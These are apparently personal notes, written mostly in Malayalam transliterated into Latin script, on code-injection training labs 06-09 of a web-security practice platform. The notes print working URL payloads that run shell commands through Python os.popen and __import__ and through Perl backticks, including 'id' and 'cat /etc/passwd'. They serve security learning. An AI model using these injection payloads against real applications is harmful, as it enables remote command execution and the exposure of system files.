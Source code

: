# Code Execution 06
-->In this exercise, we are dealing with a Python application.
-->so lab open chyuka.website load aakum.url ->http://ptl-6ec582da-c2dba1a4.libcurl.so/hello/hacker
-->so ivide parameter illa.so hacker enn last kanuna sthalath test chyam /hacker" 
-->ipol error varunund. so namu + (url encoded) use chyth test chyam
-->http://ptl-6ec582da-c2dba1a4.libcurl.so/hello/hacker%22%2b%22josu%22%2b%22
-->ipol site il hackerjosu enn kanikunund
-->in ee "josu" ennath mati namuk ee application il use chyuna language nokam.so "josu" matuka.enit just 1 enna number kodukuka.apol error varum.karanam 1 ennath integer aan.pakaram "1" ennan koduththenil error varila karanam ipo ith string aan
-->so ruby aano language enn nokam.athin -> 1.to_s%2b..  enn kodukuna.ie, 1 enna integer ine string aakunathan ith.but error varunu.so ruby alla
-->ini python aano enn nokam athin -> str(1)  enn kodukam.apol error varunila.so python aan application use chyunath ok
-->so ini code execution chyam :
-->`http://ptl-6ec582da-c2dba1a4.libcurl.so/hello/hacker%22%2bstr(os.popen(%22id%22).read())%2b%22`
-->ipol namuk id kanikunund.so aayi.ini lab compelete chyuka

# Code Execution 07
-->lab open chyuka namuk ee url kitum ->http://ptl-5d30cf37-de81e81f.libcurl.so/hello/hacker
-->so ithile hacker il test chyam liek ' / "  oke test chyanam
-->double qoute idumbol error varum
-->`http://ptl-5d30cf37-de81e81f.libcurl.so/hello/hacker%22%2bstr(1+1)%2b%22josu`
-->ingane idumbol error varunila.means python aan run chyunath.ivide lab 06 pole os.popen(...)  chyan patunila.karanam ivide os module vilichitila.so namal thane manually ivide vilikanam.enit venam code execution chyan ok
-->final payload : ->`http://ptl-5d30cf37-de81e81f.libcurl.so/hello/hacker%22%2bstr(__import__('os').popen('cat%20/etc/passwd').read())%2b%22`
-->ipol namuk passwd kanum
-->so ini satharana chyuna pole lab complete aakuka ok

# Code Execution 08
-->ivide nerthe athe same pole thane aan.but ivide difficulty koodi.medium aan
-->nerthe namal `...2bstr(__import__('os').popen('cat%20/etc/passwd')` adichapol result vannu.but ivide result varunila.error aan verunath.
-->so namal /etc/passwd inte slash url double encode chyunu.apol error varunila but result page il kanikunumila.so namal url encode vittit base64 encoding pareekshikunu ok
==ee lab padan theerkan.so pine chyam ok==

# Code Execution 09
-->This challenge is code injection in Perl.
-->The Perl script is deployed as a CGI script. You can quickly get a better understanding of how the site works by inspecting the traffic. First the index page is loaded, then it does a request to the CGI in JavaScript.
-->lab open chyuka.enit athil start here enn button undakum.apol page load onum akila.but /#hacker enn puthiya url kanikum.so namal inspect->network eduth aa url onum chyand reload chyuka.
-->apol namuk vere thane oru request kanan patum.apol athil correct url kanikum ie,`/cgi-bin/hello?name=hacker` so ee url angane thane copy chyth request send chyumbol namuk aa same result oru json format il kitunu
-->so ini aa parameter il single/double qoute oke itt test chyuka.
-->/cgi-bin/hello?name=hacker'.'josu  enn idumbol aa json il hackerjosu enn kanikunu.
-->ivide cgi enn kanikunath kond thane language athkavum perl aakanan sathayatha.so ini namuk code execution chyam.so athil ruby ile pole thane backtick ittan code chyendath
```
http://ptl-7a8fb144-f7abfe46.libcurl.so/cgi-bin/hello?name=hacker2'.`cat+/etc/passwd`.'josu
```
-->ipol code execution nadanu ok
-->NOTE : njan browser il ith chyumbol error aan varunath
```
```